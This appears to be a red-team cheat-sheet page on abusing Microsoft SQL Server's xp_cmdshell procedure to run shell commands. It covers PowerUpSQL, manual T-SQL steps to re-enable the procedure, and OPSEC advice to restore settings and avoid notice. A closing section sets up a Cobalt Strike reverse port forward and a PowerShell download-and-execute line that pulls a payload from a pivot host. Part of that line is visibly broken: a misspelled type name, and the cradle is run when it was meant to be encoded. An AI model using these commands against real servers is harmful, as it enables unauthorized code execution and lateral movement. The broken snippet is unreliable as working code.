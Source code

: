 # Command Execution

The `xp_cmdshell` procedure can be used to execute shell commands on the SQL Server.

* PowerUpSQL:

```powershell
Invoke-SQLCmd -Instance "mssql.corp.io,1443" -Command "whoami" -RawResults

corp\svc_mssql
```
> **Note**: `Invoke-SQLCmd` automatically attemp to enable `xp_cmdshell`, execute the given command an then re-disable it.
* Manually:

```
EXEC xp_cmdshell 'whoami';
```
Sometimes this can lead an error due to `xp_cmdshell` is disabled. Check the configuration with the following command.

```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```
Reconfigure the value to `1` in order to enable the procedure.

```
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```
And finally execute the command.

```
EXEC xp_cmdshell 'whoami';
```

> **OPSEC Alert**: Ensure you set the configuration to the original values after making a change on configurations.

> **Note**: There is a SQL command length limit that will prevent you from sending large payloads directly in the query, use Reverse Port Forwards and Pivot Listeners.

## Beacon Execution

Since MSSQL Server does not have access to the team server and the payload is hosted on the team server, we can do a reverver port forwarding to forward port 80 of the TeamServer to port 8080 of the beacon.

```powershell
beacon> rportfwd 8080 <ip-teamserver> 80
```
Create a Pivot Listener and host it via Scripted Web Delivery.

```powershell
$str = IEX((New-Object Net.WebClient).DownloadString('http://<ip-beacon>:8080/s1'))
[Ssystem.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
